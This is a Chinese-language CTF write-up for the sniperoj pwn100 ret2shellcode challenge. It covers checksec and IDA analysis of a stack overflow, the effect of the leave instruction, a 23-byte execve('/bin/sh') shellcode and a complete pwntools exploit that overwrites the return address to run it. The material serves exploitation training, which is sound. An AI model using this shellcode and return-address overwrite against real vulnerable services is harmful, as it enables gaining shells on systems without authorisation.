

# sniperoj-pwn100-shellcode-x86-64

**checksec检查文件**

```
# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:20:17]
$ checksec --file=shellcode
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   72) Symbols       No    0        
```


```
# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:22:37]
$ file shellcode
shellcode: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4600df3dbafbffc6436a38e95b386fc8afbbd63b, not stripped
```


**IDA反汇编**

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _QWORD buf[2]; // [rsp+0h] [rbp-10h] BYREF

  buf[0] = 0;
  buf[1] = 0;
  setvbuf(stdout, 0, 1, 0);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", buf);
  puts("Now give me your answer : ");
  read(0, buf, 0x40u);
  return 0;
}
```

覆盖的空间大小为0x40，buf大小为0x10


题目没有发现system函数与“/bin/sh”字符串，且没有开启堆栈不可执行的保护，因此我们可以采用直接写入shellcode的方法。

由于：

```

# zhailin @ DESKTOP-4OQQP8F in ~/DGSSZCTIE/Lab/ret2shellcode on git:master x [8:25:25]
$ python3
Python 3.10.12 (main, Aug 15 2025, 14:32:43) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> shell = asm(shellcraft.sh())
>>> len(shell)
44
>>>
```

我们的`shellcode`长度为44，但是覆盖的空间大小为`0x40`，因此我们需要换一个短一点的`shellcode`


本文所使用的`shellcode`：*https://www.exploit-db.com/shellcodes/46907*

```
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05
```

```
>>> a = "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
>>> len(a)
23
```

现在长度足够短，问题来了我们需要放在哪个位置？

我们重新回到IDA中看汇编，发现其中存在`leave`指令：

```
.text:00000000000007D0 ; __unwind {
.text:00000000000007D0                 push    rbp
.text:00000000000007D1                 mov     rbp, rsp
.text:00000000000007D4                 sub     rsp, 10h
.text:00000000000007D8                 mov     [rbp+buf], 0
.text:00000000000007E0                 mov     [rbp+var_8], 0
.text:00000000000007E8                 mov     rax, cs:stdout@@GLIBC_2_2_5
.text:00000000000007EF                 mov     ecx, 0          ; n
.text:00000000000007F4                 mov     edx, 1          ; modes
.text:00000000000007F9                 mov     esi, 0          ; buf
.text:00000000000007FE                 mov     rdi, rax        ; stream
.text:0000000000000801                 call    _setvbuf
.text:0000000000000806                 lea     rdi, s          ; "Welcome to Sniperoj!"
.text:000000000000080D                 call    _puts
.text:0000000000000812                 lea     rax, [rbp+buf]
.text:0000000000000816                 mov     rsi, rax
.text:0000000000000819                 lea     rdi, format     ; "Do your kown what is it : [%p] ?\n"
.text:0000000000000820                 mov     eax, 0
.text:0000000000000825                 call    _printf
.text:000000000000082A                 lea     rdi, aNowGiveMeYourA ; "Now give me your answer : "
.text:0000000000000831                 call    _puts
.text:0000000000000836                 lea     rax, [rbp+buf]
.text:000000000000083A                 mov     edx, 40h ; '@'  ; nbytes
.text:000000000000083F                 mov     rsi, rax        ; buf
.text:0000000000000842                 mov     edi, 0          ; fd
.text:0000000000000847                 call    _read
.text:000000000000084C                 mov     eax, 0
.text:0000000000000851                 leave
```

这段反汇编代码中，`leave` 指令的作用是清理当前函数的栈帧，为函数返回做准备。具体来说：

leave 指令的等效操作：
```nasm
mov rsp, rbp  ; 将栈指针恢复到基址指针的位置（释放局部变量空间）
pop rbp       ; 恢复调用者的基址指针
```
代码中的具体作用：
1. 恢复栈指针：sub rsp, 10h 分配了 16 字节的栈空间用于局部变量（buf 和 var_8）。leave 会撤销这个操作。

2. 恢复基址指针：push rbp 和 mov rbp, rsp 建立了当前函数的栈帧，leave 会恢复调用者的 rbp 值。

3. 为返回做准备：leave 执行后，栈指针 rsp 指向返回地址，接着的 ret 指令就能正确返回到调用者。

而shellcode中对sp进行了push操作，所以leave指令会对shellcode的执行造成影响。所以buf中不能存放shellcode，buf后的8个字节也不能存放（这里需要存放返回地址）


所以，我们的shellcode只能放在buf首地址后的0x10+8后的地址


**计算偏移量**




**Exploit**

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
import sys

pwd = sys.path[0]
context.log_level = 'debug'
p = process(pwd + '/shellcode')

p.recvuntil(b'[')
buf_addr_str = p.recvuntil(b']', drop=True)
buf_addr = int(buf_addr_str, 16)
print(hex(buf_addr))

shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'

payload = b'A' * 24  
payload += p64(buf_addr + 24 + 8) 
payload += shellcode  

p.sendlineafter(b'Now give me your answer : \n', payload)
p.interactive()
```